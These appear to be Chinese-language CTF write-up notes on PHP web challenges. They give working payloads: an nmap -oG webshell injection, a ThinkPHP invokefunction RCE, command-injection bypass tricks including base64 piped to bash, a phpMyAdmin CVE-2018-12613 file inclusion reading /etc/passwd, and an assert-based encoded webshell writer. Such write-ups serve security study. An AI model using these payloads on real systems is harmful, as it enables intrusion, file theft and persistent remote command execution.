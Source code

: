 思路是将命令写入host,通过nmap 写入文件shell ，<?php eval();?> -oG shell.php

对于单个单引号, **escapeshellarg** 函数转义（加\）后,还会在左右各加一个单引号(加' '),但 **escapeshellcmd** 函数是直接加一个转义符(加 \ )，对于成对的单引号, **escapeshellcmd** 函数默认不转义,但 **escapeshellarg** 函数转义:

?host=' <?php eval();?> -oG shell.php '

写入的文件在md5加密处，执行即可

### php_rce

https://blog.csdn.net/qq_36304918/article/details/86384042

https://mp.weixin.qq.com/s/cSaA6HUX0_j7KzBzAAoE0Q

?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

后面直接加webshell写入

echo '<?php eval($_POST[1]); ?>' > 1.php

蚁剑拿下

### [GXYCTF2019]Ping Ping Ping

命令注入绕过

尝试ls，有flag.php，这里给出几种绕过

- 空格绕过 < <> %20 %09 $IFS$9 IFS *I***F***S* 
- cat fl* 利用*匹配任意
- echo "Y2F0IGZsYWcucGhw"| base64 -d | bash
- ca\t fl\ag.php
- cat fl''ag.php
- 变量绕过：a=g;cat$IFS$1fla$a.php



### [GWCTF 2019]我有一个数据库

https://www.cnblogs.com/kbhome/p/13210419.html

连接进去，提示数据库，输入phpmyadmin，进入后台，用CVE-2018-12613的验证POC本地文件包含，phpadmin4.8

```
当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，造成文件被解析。此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。
1. http://192.168.73.131:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
2. 执行数据库语句，内容为php  SELECT '<?php eval($_POST["1"])?>'
3. 查看F12的import.php的set-cookie:phpAdmin值，复制到下方
4. http://192.168.73.131:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_3c9f4025794d547ff88ae6cd1bc2f40f(复制)，可执行命令
```



## 代码执行

```
PHP代码执行函数 - eval & assert & preg_replace
1. mixed eval ( string $code )
把字符串 $code 作为PHP代码执行。
很多常见的 webshell 都是用eval 来执行具体操作的。

2. bool assert ( mixed $assertion [, string $description ] )
检查一个断言是否为 FALSE。（把字符串 $assertion 作为PHP
代码执行）
<?php $_GET[a]($_GET[b]);?>
?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};

```

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604